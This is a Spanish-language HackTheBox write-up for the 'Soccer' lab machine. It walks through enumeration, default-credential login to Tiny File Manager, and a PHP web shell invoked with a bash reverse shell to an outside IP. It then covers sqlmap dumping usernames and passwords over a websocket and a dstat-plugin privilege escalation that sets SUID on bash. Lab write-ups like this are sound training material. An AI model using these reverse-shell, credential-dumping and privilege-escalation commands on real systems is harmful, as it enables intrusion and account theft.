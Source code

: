 ```yaml
---
layout: single
title: Soccer - HackTheBox
excerpt: " This CTF focuses on success through enumeration. "
date: 2023-06-20
classes: wide
header:
  teaser: /blog/assets/images/htb-writeup-soccer/soccer.png
  teaser_home_page: true
  icon: /blog/assets/images/htb.webp
categories:
  - hackthebox
tags:  
  - mysql
  - ssh
  - suid
---
```


This CTF focuses on success through enumeration.

# Summary
- IP: 10.10.11.194
- Ports: 22,80,9091
- OS: Linux (Ubuntu Bionic)
- Services & Applications:
	- 22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
	- 80 -> nginx 1.18.0
	- 9091 -> xmltec-xmlmail?

# Recon
- Reconocimiento básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` bash
$sudo nmap -p22,80,9091 -sCV 10.10.116.216 -oN targeted
``` 

- Reconocimiento de directorios con gobuster:

```bash
$gobuster dir -u soccer.htb -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x php
```

- Encontramos el directorio "/tiny", accedemos y nos encontramos con un login de "Tiny File Manager", buscamos en google las credenciales por defecto de este recurso y probamos.

- Accedemos como admin, analizamos la web, nos permite subida de archivos en el directorio "/uploads", subimos un PHP con una reverse shell y accedemos:

```
http://soccer.htb/tiny/uploads/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.85/443%200%3E%261%22
```

- Como el usuario www-data buscamos recursos para escalar privilegios:
- Recordamos que el puerto 9091 estaba aabierto, sospechamos de un websocket, lo comprobamos:

```bash
websocat ws://soccer.htb:9091 -v
```

- Confirmado ya que se trata de un Web Socket, buscamos vulnerabilidades para la misma, encontramos este artículo [Automating Blind SQL injection over WebSocket | Rayhan0x01’s Blog](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

- Ejecutamos la script de python para redireccionar los datos de la ws y poder acceder a estos como localhost para realizar un ataque de SQL Injection:
- Cambiamos los campos "ws-server" por el puerto 9091 y "data" por "id"

```bash
$python3 exploit.py
```

- Ahora atacamos con sqlmap. primero en búsqueda de los nombres de las bases de datos:

```bash
sqlmap -u "http://127.0.0.1:8081/?id=1" --dbs
```

- Ahora buscamos las tablas que hay en la BD "soccer_db":

```bash
 sqlmap -u "http://127.0.0.1:8081/?id=1" -D soccer_db --tables
```

- Enumeramos las columnas de esta tabla:

```bash
 sqlmap -u "http://127.0.0.1:8081/?id=1" -D soccer_db -T accounts --columns
```

- Encontramos las columnas username y password, las dumpeamos:

```bash
sqlmap -u "http://127.0.0.1:8081/?id=1" -D soccer_db -T accounts -C username,password -dump
```

- Obtenemos la contraseña del usuario "player" accedemos por SSH:

```bash
$ssh player@10.10.103.124
```

- Obtenemos la primera flag.

# Escalando privilegios:


- Buscamos permisos SUID:

```bash
$ find / -perm -4000 2>/dev/null
```

- Nos encontramos con "doas", buscamos todos los archivos doas que hayan:

```bash
$ find -name doas 2>/dev/null l grep doas
```

- Nos encontramos un "doas.conf", lo leemos, nos dice que un binario dstat se puede ejecutar como root sin contraseña:

```bash
/usr/bin/dstat
$ doas -u root /usr/bin/dstat
```

- Tenemos capacidad de escritura en la ruta share/dstat que es en donde se guardan los plugins:
```bash
$ ls -la /usr/local/share/dstat
```

- Nos creamos un plugin .py que otorgue permisos SUID a la bash y lo ejecutamos como root:
```bash
player@soccer:/usr/local/share/dstat$ echo 'import os;os.system("chmod u+s /bin/bash")' > dstat_privesc.py
player@soccer:/usr/local/share/dstat$ doas -u root /usr/bin/dstat --privesc &>/dev/null
bash -P
```

- Ya somos ROOT y obtenemos la flag.



# Holaaaaaaaaaaaaaaa


<p style="text-align: center;">
<img src="/blog/assets/images/htb-writeup-soccer/soccer.png">
</p>
